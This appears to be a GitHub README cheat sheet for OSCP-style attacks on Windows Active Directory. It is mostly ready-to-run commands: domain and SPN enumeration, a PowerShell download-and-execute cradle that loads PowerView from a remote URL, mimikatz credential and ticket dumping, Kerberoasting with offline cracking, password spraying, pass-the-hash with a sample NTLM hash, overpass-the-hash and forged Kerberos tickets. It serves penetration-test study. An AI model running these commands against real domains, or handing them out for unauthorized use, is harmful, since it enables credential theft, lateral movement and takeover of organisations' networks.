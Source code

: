 # OSCP-Cheat-Sheets-AD

https://www.ired.team/
https://0xsp.com/offensive/privilege-escalation-cheatsheet



## Active Directory Enumeration

```console
net user
net user /domain
net user admin /domain
net group /domain
```

Get-ADUser	# Require administrative privileges to use

```console
powershell -executionpolicy bypass -File enum-ad.ps1
```


## Enumerate Service Principal Names
```console
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="serviceprincipalname=*http*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
  Foreach($prop in $obj.Properties)
  {
    $prop
  }
}
```
Get-SPN
https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/Get-SPN.ps1

GET-SPN -type service -search "MSSQLSvc"
GET-SPN -type service -search "HTTP"
GET-SPN -type service -search "*"





## Enumerate logged-in and sessions users
```console
powershell -executionpolicy bypass
PS C:\AD> Import-Module .\PowerView.ps1
PS C:\AD> Get-NetLoggedon -ComputerName Tiger01;
PS C:\AD> Get-NetSession -ComputerName dc01

PS C:\AD> IEX(New-Object System.Net.WebClient).DownloadString('http://<URL>/powerview.ps1');Get-NetLoggedon -ComputerName Tiger01;
```


## Active Directory Authentication
WDigest Windows 7 and Windows Server 2008 R2

Active Directory --> Kerberos640 || NTLM authentication

### Kerberos Authentication - tickets

Process
1. User logs in workstation -- -AS-REQ_TGT --> KDC.  # REQ_TGT = timestamp encrypted with hash password NTLM + user
2. KDC -- AS-REP --> client. # AS_REP = Session key(encrypted user password hash) + TGT (key session encrypted krbtgt NT hash KDC)(include info user and groups).
#Finish KDC considers the client authentication complete

To access resources of the domain, such as application with a registered SPN
1. Client -- TGS_REQ --> DC-KDC  # TGS_REQ (user and timestamp encrypted using the session key + SPN of the resource + TGT)
2. DC-KDC TGT decrypted_secret_key -- TGS_REP -->  Client.   # TGS_REP (SPN + session key to client and SPN) encrypted_session_key_TGT + (service ticket) encrypted_password_hash
3. Cliente -- AP_ REQ --> Application.  # AP_REQ = Username + timestamp encrypted with the session key associated with the service ticket
4. Application -- Service Autenticacion --> Client.


### Cached Credential Storage and Retrieval
```console
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```
Tickets stored in memory
```console
sekurlsa::tickets
```
TGS allow to access SPN
TGT allow to request TGS


### Service Account Attacks

Request Ticket
```console
PS C:\>Add-Type -AssemblyName System.IdentityModel
PS C:\>New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorporateWebServer.corporate.com'
PS C:\> klist
```
Export Ticket
```console
mimikatz # kerberos::list /export
```
Crack pwd with Ticket
```console
kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py rockyou.txt 1-40a50000-user@HTTP~Corporatedb.corporate.com-CORPORATE.COM.kirbi
```

Invoke-Kerberoast.ps1
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
Enumerate SPN, request service tickets, and export in a format ready for cracking in both John the Ripper and Hashcat


### Low and Slow Password Guessing
```console
PS C:> .\Spray-Passwords.ps1 -Pass pass123 -Admin  # -File to wordlist, -Admin test acount admin
```

## Active Directory Lateral Movement
### Pass-the-Hash
https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/
```console
kali@kali:~$ pth-winexe -U user%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```
pth-wine
https://github.com/byt3bl33d3r/pth-toolkit


### Overpass-the-Hash - Convert NTLM to ticket
Dumps the cached password hashes
```console
mimikatz # sekurlsa::logonpasswords
```
```console
mimikatz # sekurlsa::pth /user:sec_admin /domain:corporate.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
PS C:\Windows\system32> klist   # list the cached Kerberos tickets
PS C:\Windows\system32> net use \\dc01    # No Kerberos tickets have been cached
PS C:\Windows\system32> klist
PS C:> .\PsExec.exe \\dc01 cmd.exe
```

### Pass-the-ticket - takes advantage of the TGS

Get SID
```console
whoami /user
```
```console
#flush any existing Kerberos ticket
mimikatz # kerberos::purge
mimikatz # kerberos::list
```
```console
mimikatz # kerberos::golden /user:sec /domain:corporate.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorporateWebServer.corporate.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```
